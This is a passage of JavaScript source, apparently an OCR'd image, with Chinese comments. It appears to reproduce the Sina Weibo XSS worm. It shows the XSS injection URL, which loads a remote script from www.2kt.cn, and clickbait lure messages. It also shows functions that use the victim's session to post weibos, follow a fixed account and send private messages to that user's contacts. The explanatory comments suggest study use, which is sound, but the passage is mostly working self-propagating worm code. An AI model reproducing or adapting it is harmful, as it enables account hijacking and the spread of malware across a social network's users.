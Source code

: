 ```javascript
    return id_arr;
}
function random_msg(){

    // 使用短地址服务，构造 XSS 传播连接，隐藏自己的恶意 js 脚本，
    // 这里正是 XSS 漏洞的触发位置
 //http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=upd
    link = ' http://163.fm/PxZHoxn?id=' + new Date().getTime();;
    // 话题列表 
    var msgs = [
        '郭美美事件的一些未注意到的细节：',
        '建党大业中穿帮的地方：',
        '让女人心动的 100 句诗歌：',
        '3D 肉团团高清普通话版种子：',
        '这是传说中的神仙眷侣啊：',
        '惊爆!范冰冰艳照真流出了：',
        '杨幂被爆多次被潜规则:',
        '傻仔拿锤子去抢银行：',
        '可以监听别人手机的软件：',
        '个税起征点有望提到 4000：']; 

    //随机选取话题,加上之前的传播连接作为微博内容 
    var msg = msgs[Math.floor(Math.random()*msgs.length)] + link;
    msg = encodeURIComponent(msg); //对内容进行 Url 编码
    return msg;
}
// 利用 Ajax 发送 POST 请求
function post(url,data,sync){
    xmlHttp = createXHR();
    xmlHttp.open("POST",url,sync);
    xmlHttp.setRequestHeader("Accept","text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
    xmlHttp.setRequestHeader("Content-Type","application/x-www-form-urlencoded; charset=UTF-8");
    xmlHttp.send(data);
}
// 发表微博，话题随机
function publish(){
    url = 'http://weibo.com/mblog/publish.php?rnd=' + new Date().getTime();
    data = 'content=' + random_msg() + '&pic=&styleid=2&retcode='; //使用 random_msg 生成随机话题
    post(url,data,true);
}
// 自动关注用户
function follow(){
    url = 'http://weibo.com/attention/aj_addfollow.php?refer_sort=profile&atnId=profile&rnd=' + new Date().getTime();
    // 使用当前页面存储的$CONFIG.$uid 构造自动关注数据包
    data = 'uid=' + 2201270010 + '&fromuid=' + $CONFIG.$uid + '&refer_sort=profile&atnId=profile';
    post(url,data,true);
}
// 发送私信
function message(){
    url = 'http://weibo.com/' + $CONFIG.$uid + '/follow'; //构造用户关注用户列表页 Url
    ids = getappkey(url); //获取被关注用户的 Appkey 数组
    id = ids.split('||'); //分割出每个被关注用户的 Appkey
    for(i=0;i<id.length - 1 & i<5;i++){
        //构造私信发送 Url
        msgurl = 'http://weibo.com/message/addmsg.php?rnd=' + new Date().getTime();
        msg = random_msg();
        msg = encodeURIComponent(msg);
        user = encodeURIComponent(encodeURIComponent(id[i]));
        data = 'content=' + msg + '&name=' + user + '&retcode=';
        post(msgurl,data,false);  //通过 XmlHttpRequest 发送请求
```